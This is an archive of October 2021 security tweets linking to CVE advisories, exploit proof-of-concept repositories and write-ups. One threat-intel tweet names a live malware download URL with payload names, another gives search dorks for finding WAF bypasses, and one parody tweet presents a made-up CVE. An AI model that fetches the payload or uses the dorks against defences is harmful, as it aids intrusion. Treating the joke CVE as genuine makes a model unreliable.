# moton
**https://twitter.com/moton/status/1454794114008956928 _at 2021-10-31 12:55:20_**
<blockquote>
GitHub - ly4k/CallbackHell: Exploit for CVE-2021-40449 - Win32k Elevation of Privilege Vulnerability (LPE)
https://t.co/TtwnoP8uFe
</blockquote>

* https://github.com/ly4k/CallbackHell

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>2</code></td>
</tr></table>

---

# blackhatcats
**https://twitter.com/blackhatcats/status/1454394743895609348 _at 2021-10-30 10:28:22_**
<blockquote>
Windows zero-day privilege elevation vulnerability
proof-of-concept cve-2021-34484
https://t.co/SyRfmJ8Yd7 #poc #0day #code #cybersecurity
</blockquote>

* https://github.com/klinix5/ProfSvcLPE

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>4</code></td>
<td>Favorites: <code>1</code></td>
</tr></table>

---

# NandanLohitaksh
**https://twitter.com/NandanLohitaksh/status/1454334401790169100 _at 2021-10-30 06:28:36_**
<blockquote>
CVE-2021-20837 : RCE in MovableType
PoC
https://t.co/rXikBGYmNh https://t.co/bEMlKPMfPW
</blockquote>

* https://github.com/ghost-nemesis/cve-2021-20837-poc

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>2</code></td>
<td>Favorites: <code>9</code></td>
</tr></table>

---

# LinInfoSec
**https://twitter.com/LinInfoSec/status/1454225463090552834 _at 2021-10-29 23:15:43_**
<blockquote>
Php - CVE-2020-25872: https://t.co/J70mbo8zHi
</blockquote>

* https://github.com/philippe/FrogCMS/issues/34

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>0</code></td>
</tr></table>

---

# TheHackersNews
**https://twitter.com/TheHackersNews/status/1454133773356781570 _at 2021-10-29 17:11:22_**
<blockquote>
Unauthenticated Remote Code Execution (RCE) vulnerability in Hikvision IP camera/NVR firmware (CVE-2021-36260)

https://t.co/xbP0ViOkNi

#infosec https://t.co/540njXHQZ7
</blockquote>

* https://watchfulip.github.io/2021/09/18/Hikvision-IP-Camera-Unauthenticated-RCE.html

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>67</code></td>
<td>Favorites: <code>140</code></td>
</tr></table>

---

# podalirius_
**https://twitter.com/podalirius_/status/1454102473485033474 _at 2021-10-29 15:07:00_**
<blockquote>
Today I wrote an #exploit #tool for #MailMasta #Wordpress #plugin Local File Inclusion #vulnerability (#CVE-2016-10956). I needed a tool with many options, and capable of dumping all found files locally. So here it is ! 🦋

https://t.co/RijPukiKLE
</blockquote>

* https://github.com/p0dalirius/CVE-2016-10956_mail_masta

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>6</code></td>
<td>Favorites: <code>18</code></td>
</tr></table>

---

# pattern_F_
**https://twitter.com/pattern_F_/status/1454098114999046152 _at 2021-10-29 14:49:41_**
<blockquote>
CVE-2021-30914
I used this one to complete my first iOS LPE exploit demo, on 2021-02-09, . Unfortunately, it is not easy to exploit it in iOS 14.2 and above. https://t.co/eOSSFpqFjR
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>10</code></td>
<td>Retweets: <code>26</code></td>
<td>Favorites: <code>162</code></td>
</tr></table>

---

# campuscodi
**https://twitter.com/campuscodi/status/1454015121756405764 _at 2021-10-29 09:19:53_**
<blockquote>
Google fixes 15th and 16th Chrome zero-day this year--the most Google has patched in Chrome in any single calendar year since the browser’s first release in 2008.

https://t.co/JZKCb8jCHo

-CVE-2021-38000
-CVE-2021-38003
https://t.co/3YU3FO5IfS https://t.co/6BywN2rSjR
</blockquote>

* https://therecord.media/google-fixes-15th-and-16th-chrome-zero-day-this-year/
* https://chromereleases.googleblog.com/2021/10/stable-channel-update-for-desktop_28.html

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>21</code></td>
<td>Favorites: <code>50</code></td>
</tr></table>

---

# testanull
**https://twitter.com/testanull/status/1454000368711450627 _at 2021-10-29 08:21:16_**
<blockquote>
Here is the final part of SolarWinds Orion Deserialization (CVE-2021-35218)
This vulnerability can be triggered without any authentication,
*It's sad that ZDI didn't accept  this as an Pre-Auth RCE
Kudo @Y4er_ChaBug for detailed analysis!
https://t.co/ggBgxMu3zF
</blockquote>

* https://testbnull.medium.com/50-shades-of-solarwinds-orion-patch-manager-deserialization-final-part-cve-2021-35218-3d38166cb81f

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>96</code></td>
<td>Favorites: <code>267</code></td>
</tr></table>

---

# mj0011sec
**https://twitter.com/mj0011sec/status/1453836802930843648 _at 2021-10-28 21:31:19_**
<blockquote>
Google just released Chrome 95.0.4638.69 &amp; fixed two TianfuCup bugs which become the first patch for TianfuCup 2021 https://t.co/jCqcs3Cpll CVE-2021-38001  is the RCE from Kunlun lab &amp; CVE-2021-38002 is the SBX from 360(RCE one silence killed)
</blockquote>

* https://chromereleases.googleblog.com/2021/10/stable-channel-update-for-desktop_28.html

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>23</code></td>
<td>Favorites: <code>104</code></td>
</tr></table>

---

# N3T_hunt3r
**https://twitter.com/N3T_hunt3r/status/1453731695656517637 _at 2021-10-28 14:33:39_**
<blockquote>
🎟 Free Labs to practice SSRF 🎟

https://t.co/XZdZk6GQaL

https://t.co/xdybzcMuOE

https://t.co/5qaiqslHqE

#infosec #cybersecurity #security #pentest #owasptop10 #bugbounty #ssrf
</blockquote>

* https://github.com/jdonsec/AllThingsSSRF
* https://github.com/incredibleindishell/SSRF_Vulnerable_Lab
* https://github.com/m6a-UdS/dvca

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>272</code></td>
<td>Favorites: <code>485</code></td>
</tr></table>

---

# bad_packets
**https://twitter.com/bad_packets/status/1453476624385470464 _at 2021-10-27 21:40:06_**
<blockquote>
Mass scanning activity detected from the following hosts targeting Fortinet VPN servers vulnerable to unauthenticated arbitrary file read (CVE-2018-13379) leading to disclosure of usernames and passwords in plaintext.
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>19</code></td>
<td>Favorites: <code>32</code></td>
</tr></table>

---

# kennwhite
**https://twitter.com/kennwhite/status/1453362308856664070 _at 2021-10-27 14:05:51_**
<blockquote>
C: Hi! I'd like a ring buffer. Values 1,2,3,4…

x86: Sure! Here you go. 1,2,3,4…

Arm: You bet! Here you go. 1,2,17,3…

Seriously, bookmark this for your required exploit reading of the day. It's fantastic.

https://t.co/tRFKmWKGFM
</blockquote>

* https://github.com/stong/how-to-exploit-a-double-free

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>29</code></td>
<td>Favorites: <code>80</code></td>
</tr></table>

---

# pdnuclei
**https://twitter.com/pdnuclei/status/1453351196350029829 _at 2021-10-27 13:21:41_**
<blockquote>
Nuclei Template for CVE-2021-22205 - GitLab CE/EE Unauthenticated RCE using ExifTool

Template: https://t.co/ELvga2mXyI

#bugbounty #pentest #hackwithautomation #gitlab https://t.co/P18kC8IJJI
</blockquote>

* https://github.com/projectdiscovery/nuclei-templates/blob/2d19236680fcf292c43734d6d524464396d294ae/cves/2021/CVE-2021-22205.yaml

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>99</code></td>
<td>Favorites: <code>279</code></td>
</tr></table>

---

# RedDrip7
**https://twitter.com/RedDrip7/status/1453291780078714880 _at 2021-10-27 09:25:35_**
<blockquote>
#PuzzleMaker
We found a complete exploit chain which involves #Chrome #RCE vuln #CVE-2021-21224 and Windows EoP vuln #CVE-2021-31956 in the wild. This exploit chain allows attackers to escape Chrome sandbox and execute code with Windows system privileges.

https://t.co/W3sPCNtR2G https://t.co/2J5zU7ho3Y
</blockquote>

* https://securelist.com/puzzlemaker-chrome-zero-day-exploit-chain/102771/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>71</code></td>
<td>Favorites: <code>182</code></td>
</tr></table>

---

# Sam_0x0
**https://twitter.com/Sam_0x0/status/1453062078990897155 _at 2021-10-26 18:12:50_**
<blockquote>
exploit for CVE-2021-40449, a Windows LPE via a UAF in win32kfull!GreResetDCInternal

https://t.co/PTzlm2bpd4
</blockquote>

* https://github.com/hakivvi/CVE-2021-40449

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>1</code></td>
</tr></table>

---

# e11i0t_4lders0n
**https://twitter.com/e11i0t_4lders0n/status/1452884329181315074 _at 2021-10-26 06:26:32_**
<blockquote>
4-On Exploit DB:
site:https://t.co/eoy5Ce7d9S +&lt;wafname&gt; bypass

5-On 0Day Inject0r DB:
site:https://t.co/FsDdgkGl4F +&lt;wafname&gt; &lt;type&gt; (bypass|exploit)

6-On Twitter: site:https://t.co/WmmpipT71g +&lt;wafname&gt; bypass

On Pastebin:
site:https://t.co/Wz5sQnuQi6 +&lt;wafname&gt; bypass
</blockquote>

* http://exploit-db.com
* http://0day.today
* https://twitter.com
* http://pastebin.com

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>7</code></td>
<td>Favorites: <code>38</code></td>
</tr></table>

---

# piedpiper1616
**https://twitter.com/piedpiper1616/status/1452787768388505600 _at 2021-10-26 00:02:50_**
<blockquote>
GitHub - ghost-nemesis/cve-2021-20837-poc: PoC for the CVE-2021-20837 : RCE in MovableType - https://t.co/t4wDqwsHln
</blockquote>

* https://github.com/ghost-nemesis/cve-2021-20837-poc

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>17</code></td>
<td>Favorites: <code>37</code></td>
</tr></table>

---

# kmkz_security
**https://twitter.com/kmkz_security/status/1452742997712441345 _at 2021-10-25 21:04:55_**
<blockquote>
One day short of a full chain: Real world exploit chains explained
https://t.co/8m2OYkCQO0
One day short of a full chain: Part 2 - Chrome sandbox escape
https://t.co/DuP3lZWcbl
</blockquote>

* https://github.blog/2021-03-24-real-world-exploit-chains-explained/
* https://securitylab.github.com/research/one_day_short_of_a_fullchain_sbx/

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>57</code></td>
<td>Favorites: <code>128</code></td>
</tr></table>

---

# cKure7
**https://twitter.com/cKure7/status/1452523276383793153 _at 2021-10-25 06:31:50_**
<blockquote>
■■□□□ Exploit for CVE-2021-40449, a Windows LPE via a UAF in win32kfull!GreResetDCInternal.

https://t.co/yibwhu84w6
</blockquote>

* https://github.com/hakivvi/CVE-2021-40449

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>1</code></td>
</tr></table>

---

# campuscodi
**https://twitter.com/campuscodi/status/1452482549276577804 _at 2021-10-25 03:50:00_**
<blockquote>
Root cause analysis for CVE-2021-33742, a zero-day in Internet Explorer

https://t.co/QKigdIkYkK https://t.co/nIOUdxbgdK
</blockquote>

* https://googleprojectzero.github.io/0days-in-the-wild//0day-RCAs/2021/CVE-2021-33742.html

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>43</code></td>
<td>Favorites: <code>108</code></td>
</tr></table>

---

# SecSummers
**https://twitter.com/SecSummers/status/1452466322814619651 _at 2021-10-25 02:45:31_**
<blockquote>
https://t.co/5KxPvQjJKI

2021年看雪开发者大会《Make Deep Exploit RCE Attack Popular 》议题ppt放在项目里了。
</blockquote>

* https://github.com/SummerSec/LookupInterface

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>9</code></td>
<td>Favorites: <code>39</code></td>
</tr></table>

---

# NCIIPC
**https://twitter.com/NCIIPC/status/1452461610878980098 _at 2021-10-25 02:26:48_**
<blockquote>
#Discourse released Security Advisory for Critical #RCE vulnerability #CVE-2021-41163 in it’s versions 2.7.8 and earlier. Apply patch/necessary workarounds. #Cybersecurity #infosec https://t.co/mbInIpUIKp
</blockquote>

* https://github.com/discourse/discourse/security/advisories/GHSA-jcjx-pvpc-qgwq

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>6</code></td>
<td>Favorites: <code>3</code></td>
</tr></table>

---

# shaktavist
**https://twitter.com/shaktavist/status/1452353494950846470 _at 2021-10-24 19:17:11_**
<blockquote>
Critical remote code execution (RCE) vulnerability (CVE-2021-41163) in Discourse versions 2.7.8 and earlier. 

Developers advised to update to patched versions 2.7.9 or later or apply the necessary workarounds. 

#infosec #CyberSecurity

https://t.co/T5sqHe9K7C
</blockquote>

* https://github.com/discourse/discourse/security/advisories/GHSA-jcjx-pvpc-qgwq

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>1</code></td>
</tr></table>

---

# USCERT_gov
**https://twitter.com/USCERT_gov/status/1452346803542806530 _at 2021-10-24 18:50:35_**
<blockquote>
Discourse—an open source discussion platform—has released a security advisory to address a critical RCE vulnerability (CVE-2021-41163) in Discourse versions 2.7.8 and earlier. Please patch to versions 2.7.9 or later. https://t.co/VJEoQBi9CV

Discourse link https://t.co/CU8VnDLagg
</blockquote>

* https://go.usa.gov/xMhyn
* https://github.com/discourse/discourse/security/advisories/GHSA-jcjx-pvpc-qgwq

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>42</code></td>
<td>Favorites: <code>57</code></td>
</tr></table>

---

# ptracesecurity
**https://twitter.com/ptracesecurity/status/1452296706079477766 _at 2021-10-24 15:31:31_**
<blockquote>
Exploit for CVE-2021-40449 - Win32k Elevation of Privilege Vulnerability (LPE) https://t.co/RbGq5kVfTT  #Pentesting #Exploit #Vulnerability #CVE #CyberSecurity #Infosec https://t.co/cDghTB5Vmd
</blockquote>

* https://github.com/ly4k/CallbackHell

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>43</code></td>
<td>Favorites: <code>92</code></td>
</tr></table>

---

# binitamshah
**https://twitter.com/binitamshah/status/1452271774641672200 _at 2021-10-24 13:52:27_**
<blockquote>
Google Chrome Vulnerability Worth for $6K : Use After Free (CVE-2021-30573) : https://t.co/XPEfv6e2FO 

CVE-2021-30573-PoC-Google-Chrome : https://t.co/ohNJyFiZ8Z

credits @secforeveryone
</blockquote>

* https://securityforeveryone.com/blog/google-chrome-zero-day-vulnerability-cve-2021-30573
* https://github.com/s4e-lab/CVE-2021-30573-PoC-Google-Chrome

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>25</code></td>
<td>Favorites: <code>60</code></td>
</tr></table>

---

# chybeta
**https://twitter.com/chybeta/status/1451950816399560708 _at 2021-10-23 16:37:05_**
<blockquote>
CVE-2021-41163 Discourse RCE via malicious SNS subscription payload

advisory: https://t.co/3n06WatlKL

analysis: 
1、https://t.co/W1IrRNrOiJ
2、https://t.co/va029JzvRv （chinese） https://t.co/PxAqGZ48rv
</blockquote>

* https://github.com/discourse/discourse/security/advisories/GHSA-jcjx-pvpc-qgwq
* https://0day.click/recipe/discourse-sns-rce/
* https://articles.zsxq.com/id_ghcthgwba60r.html

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>91</code></td>
<td>Favorites: <code>242</code></td>
</tr></table>

---

# ShitSecure
**https://twitter.com/ShitSecure/status/1451918521391276043 _at 2021-10-23 14:28:45_**
<blockquote>
Just integrated @ly4k_'s CallbackHell exploit into WinPwn. Happy LPE everyone 😎

https://t.co/4tViAKpwX1

https://t.co/VUyKx6yGbG https://t.co/4n0h2oLB8j
</blockquote>

* https://github.com/ly4k/CallbackHell
* https://github.com/S3cur3Th1sSh1t/WinPwn/commit/5c08d979d4bd45c8120a56ac31136cdca52d4eb1

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>132</code></td>
<td>Favorites: <code>366</code></td>
</tr></table>

---

# r00tapple
**https://twitter.com/r00tapple/status/1451853088038342665 _at 2021-10-23 10:08:44_**
<blockquote>
CVE-2021-34730 : Cisco RV110W UPnP 0day Vulnerability

https://t.co/wVmdElCUIa
</blockquote>

* https://github.com/badmonkey7/CVE-2021-34730

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>1</code></td>
<td>Favorites: <code>12</code></td>
</tr></table>

---

# HaifeiLi
**https://twitter.com/HaifeiLi/status/1451570138377904129 _at 2021-10-22 15:24:24_**
<blockquote>
Wow, great work! Popping calc on Office!

The attack vector (scripting ability) exposed by zero-day CVE-2021-40444 is being used fast in real-world exploitation. That’s why I said it’s “sophisticated” when I saw the ITW exploit in the first place.:-)

A thread of my thoughts..
</blockquote>

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>14</code></td>
<td>Favorites: <code>39</code></td>
</tr></table>

---

# spaceraccoonsec
**https://twitter.com/spaceraccoonsec/status/1451512634382045189 _at 2021-10-22 11:35:54_**
<blockquote>
My writeup for Microsoft Office RCE CVE-2021-38646. A pretty simple write-what-where that affects many other applications due to the vulnerable dependency. Hope it is helpful for fellow beginners :)

https://t.co/uT20BPAVGT
</blockquote>

* https://medium.com/csg-govtech/all-your-d-base-are-belong-to-us-part-2-code-execution-in-microsoft-office-cve-2021-38646-fa6e70362162?source=friends_link&sk=364ec4e1a94ed387ccf0e29ede7773ec

<table><tr>
<td>Quotes: <code>11</code></td>
<td>Replies: <code>14</code></td>
<td>Retweets: <code>171</code></td>
<td>Favorites: <code>481</code></td>
</tr></table>

---

# reverseame
**https://twitter.com/reverseame/status/1451463062461075486 _at 2021-10-22 08:18:55_**
<blockquote>
CVE-2021-40444 - Fully Weaponized Microsoft Office Word RCE Exploit https://t.co/ddffGXt1jI
</blockquote>

* https://github.com/klezVirus/CVE-2021-40444

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>2</code></td>
<td>Favorites: <code>4</code></td>
</tr></table>

---

# cnfconformance
**https://twitter.com/cnfconformance/status/1451230425473556483 _at 2021-10-21 16:54:30_**
<blockquote>
🎉 New Release: CNF Test Suite v0.18.0 🎉

Updates include security tests using @kubescape by @ArmoSec

🔍 See if your #CNFs are exposed to the Symlink vulnerability (CVE-2021-25741) or allow privilege escalation

📓 More at: https://t.co/635CeasZ5Y

#cloudnative #bestpractices
</blockquote>

* https://github.com/cncf/cnf-testsuite/releases/tag/v0.18.0

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>0</code></td>
<td>Favorites: <code>1</code></td>
</tr></table>

---

# Ibraheem_111
**https://twitter.com/Ibraheem_111/status/1450869443391852560 _at 2021-10-20 17:00:05_**
<blockquote>
CVE-2021-40449 is a use-after-free in Win32k that allows for local privilege escalation.
https://t.co/wnIPWk0eI2
</blockquote>

* https://github.com/ly4k/CallbackHell

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>3</code></td>
<td>Favorites: <code>8</code></td>
</tr></table>

---

# RayRedacted
**https://twitter.com/RayRedacted/status/1450820687141167112 _at 2021-10-20 13:46:21_**
<blockquote>
An APT known as "MysterySnail" uses CVE-2021-40449 zero day* use-after-free vulnerability in the Win32k kernel.

Per @craiu &amp;  @oct0xor, C2 hints point to a likely Chinese threat actor. Full details on @Securelist: 
https://t.co/jjTO3rgMG6

 *Now a "9day": patchable as of 10/11 https://t.co/cbXBivDyQl
</blockquote>

* https://securelist.com/mysterysnail-attacks-with-windows-zero-day/104509/

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>23</code></td>
<td>Favorites: <code>35</code></td>
</tr></table>

---

# TheDFIRReport
**https://twitter.com/TheDFIRReport/status/1450809036153131014 _at 2021-10-20 13:00:03_**
<blockquote>
ZeroLogon (CVE-2020-1472) exploit used by a threat group utilizing Hancitor for initial access. 

➡️Report out in a couple weeks 

cc:@iiamaleks @samaritan_o @pigerlin @Kostastsale https://t.co/3Ohoy8KIoo
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>33</code></td>
<td>Favorites: <code>86</code></td>
</tr></table>

---

# RedDrip7
**https://twitter.com/RedDrip7/status/1450743401641431048 _at 2021-10-20 08:39:15_**
<blockquote>
We found an approach to exploit Windows zero-day vuln #CVE-2021-40449 which has been used in #MysterySnail #APT activity. It is a use-after-free EoP vulnerability in Win32k and was patched on October 12, 2021.

https://t.co/tXE7xMdvFv
https://t.co/RYuEcDKLBO https://t.co/O9qwpEx5H4
</blockquote>

* https://securelist.com/mysterysnail-attacks-with-windows-zero-day/104509/
* https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-40449

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>76</code></td>
<td>Favorites: <code>217</code></td>
</tr></table>

---

# jonathandata1
**https://twitter.com/jonathandata1/status/1450561945493516303 _at 2021-10-19 20:38:12_**
<blockquote>
I have released a Zero-Day Exploit for @Samsung Verizon Devices that will auto enable ADB, and bypass setup. I was asked to create this by @Verizon Texas Western District Court has dismissed &amp; refused to protect the tech, so The People Must Know 
#infosec 
https://t.co/wJjiJuSm6Z
</blockquote>

* https://github.com/jonathandata1/verizon_samsung_auto_enable_adb

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>19</code></td>
<td>Favorites: <code>61</code></td>
</tr></table>

---

# campuscodi
**https://twitter.com/campuscodi/status/1450535217760911362 _at 2021-10-19 18:52:00_**
<blockquote>
Detail analysis of CVE-2021-37975, a Chrome zero-day exploited in the wild and patched at the end of September

https://t.co/8djcUJevpL https://t.co/znn4FH2jsL
</blockquote>

* https://securitylab.github.com/research/in_the_wild_chrome_cve_2021_37975/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>6</code></td>
<td>Favorites: <code>20</code></td>
</tr></table>

---

# maddiestone
**https://twitter.com/maddiestone/status/1450506177985482756 _at 2021-10-19 16:56:36_**
<blockquote>
Another truly excellent write-up from @mmolgtm! This time about the recent Chrome v8 0-day in-the-wild, CVE-2021-37975. #itw0days

https://t.co/3pD0GBI0Di
</blockquote>

* https://securitylab.github.com/research/in_the_wild_chrome_cve_2021_37975/

<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>21</code></td>
<td>Favorites: <code>79</code></td>
</tr></table>

---

# masthoon
**https://twitter.com/masthoon/status/1450094320028106767 _at 2021-10-18 13:40:02_**
<blockquote>
Logical sandbox escape in AppJailLauncher (fix in AppJailLauncher plus Microsoft CVE-2021-41346), thanks @thalium_team for the blog post that led to the discovery of the bugs !
https://t.co/ukRwPogStZ https://t.co/1PJGGBfXcA
</blockquote>

* https://www.synacktiv.com/sites/default/files/2021-10/AppJailLauncher.pdf

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>54</code></td>
<td>Favorites: <code>119</code></td>
</tr></table>

---

# ptracesecurity
**https://twitter.com/ptracesecurity/status/1450038594509344774 _at 2021-10-18 09:58:36_**
<blockquote>
PoC (DoS) for CVE-2021-40449 - Win32k Elevation of Privilege Vulnerability (LPE)  https://t.co/RbGq5kVfTT  #Petnesting #CVE  #Vulnerability #CyberSecurity #Infosec https://t.co/Eufpohq6N1
</blockquote>

* https://github.com/ly4k/CallbackHell

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>15</code></td>
<td>Favorites: <code>24</code></td>
</tr></table>

---

# bad_packets
**https://twitter.com/bad_packets/status/1449925270387920898 _at 2021-10-18 02:28:17_**
<blockquote>
Mass scanning activity detected from the following hosts targeting Fortinet VPN servers vulnerable to unauthenticated arbitrary file read (CVE-2018-13379) leading to disclosure of usernames and passwords in plaintext.
</blockquote>

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>11</code></td>
<td>Favorites: <code>32</code></td>
</tr></table>

---

# bad_packets
**https://twitter.com/bad_packets/status/1449920995712638981 _at 2021-10-18 02:11:18_**
<blockquote>
Active DDoS malware payload detected:
http://136.144.41.46/d.sh (🇳🇱)
# file_server="136.144.41.46"
# files="b.arm6 b.arm7 b.mips b.mpsl"
# outfile="putin"

Vulnerability targeted:
D-Link router RCE (CVE-2019-16920)

Exploit attempt source IP:
193.122.151.6 (🇺🇸)
#threatintel https://t.co/ixR2VAHy3E
</blockquote>

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>31</code></td>
<td>Favorites: <code>59</code></td>
</tr></table>

---

# andridev_
**https://twitter.com/andridev_/status/1449684475994984449 _at 2021-10-17 10:31:27_**
<blockquote>
CVE-2021-41773 POC 🔥
Description: Path Traversal vulnerability in Apache 2.4.49.
https://t.co/e5u1ty0Ula

#infosec #bugbounty #ethicalhacking #apache #hackerone #bugbountytips #cybersecurity https://t.co/0MfVm2PZhN
</blockquote>

* https://github.com/SigmaHQ/sigma/pull/2124/files

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>50</code></td>
<td>Favorites: <code>113</code></td>
</tr></table>

---

# piedpiper1616
**https://twitter.com/piedpiper1616/status/1449639660003610626 _at 2021-10-17 07:33:22_**
<blockquote>
GitHub - ollypwn/CallbackHell: PoC (DoS) for CVE-2021-40449 - Win32k Elevation of Privilege Vulnerability (LPE) - https://t.co/anAFO7bryE
</blockquote>

* https://github.com/ollypwn/CallbackHell

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>7</code></td>
<td>Favorites: <code>11</code></td>
</tr></table>

---

# GothamJSharma
**https://twitter.com/GothamJSharma/status/1449539350979547136 _at 2021-10-17 00:54:47_**
<blockquote>
CVE-2022-1337: “View Source” affects all known web browsers. 

—Description— 
When the F12 key is pressed, the browser outputs source code of target website; no patch available, CVSS: 10. 

#infosec #cybersecurity #hackers #hacking #hacked #cybercrime #tech
</blockquote>

<table><tr>
<td>Quotes: <code>88</code></td>
<td>Replies: <code>79</code></td>
<td>Retweets: <code>563</code></td>
<td>Favorites: <code>2579</code></td>
</tr></table>

---

# bad_packets
**https://twitter.com/bad_packets/status/1449447032402284546 _at 2021-10-16 18:47:56_**
<blockquote>
Mass scanning activity detected from 80.85.156.136 (🇷🇺) targeting Microsoft Exchange servers vulnerable to ProxyShell (CVE-2021-34473) and F5 BIG-IP servers vulnerable to remote code execution (CVE-2020-5902). #threatintel
</blockquote>

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>19</code></td>
<td>Favorites: <code>37</code></td>
</tr></table>

---

# ly4k_
**https://twitter.com/ly4k_/status/1449412505894330372 _at 2021-10-16 16:30:44_**
<blockquote>
I've created a PoC (DoS) for CVE-2021-40449 (Win32k - LPE) with a technical writeup, commented code, and steps to further exploit the vulnerability. Before going further myself, I thought I'd share this.

https://t.co/wKjw5iZIjb
</blockquote>

* https://github.com/ollypwn/CallbackHell

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>106</code></td>
<td>Favorites: <code>283</code></td>
</tr></table>

---

# PSXHaxDOTcom
**https://twitter.com/PSXHaxDOTcom/status/1449135949850497027 _at 2021-10-15 22:11:48_**
<blockquote>
PS5 WebKit Also Affected by Use-After-Free Vulnerability (CVE-2021-30858)
https://t.co/c9uzJGg7EQ
</blockquote>

* https://www.psxhax.com/threads/ps5-webkit-also-affected-by-use-after-free-vulnerability-cve-2021-30858.10279/

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>16</code></td>
<td>Favorites: <code>104</code></td>
</tr></table>

---

# HackerGautam
**https://twitter.com/HackerGautam/status/1449120404178563072 _at 2021-10-15 21:10:02_**
<blockquote>
CVE-2021-40438 Apache mod_proxy SSRF 🔥

